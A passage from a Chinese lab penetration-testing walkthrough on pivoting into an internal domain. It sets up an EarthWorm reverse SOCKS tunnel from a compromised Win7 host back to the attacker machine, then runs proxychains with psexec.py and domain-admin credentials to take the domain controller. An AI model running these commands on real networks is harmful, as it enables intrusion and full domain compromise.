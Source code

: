 ## 3.内网渗透(代理)

这种方式很不稳定，上面的过程进行到开启了WEB靶机的3389端口后进行。

### 1. 挂代理：

```
攻击机:./ew_for_linux64 -s rcsocks -l 1080 -e 1234
Win7:ew.exe -s rssocks -d 192.168.111.128 -e 1234
```

![截图](4e38b0ff90c4dd61f0fec33fb2abf98e.png)

![截图](501719707f136a7034f37acf7e76c941.png)

通过kali自带的proxychains4进行代理,直接拿下域控：

`/etc/proxychains.conf`要配置正确

```
cat /etc/proxychains.conf     
```

![截图](d08ea33ce73aa24f22f422e16cb52906.png)

```
└─# proxychains4 python3 psexec.py god.org/administrator:hongrisec@2020@192.168.52.138
```

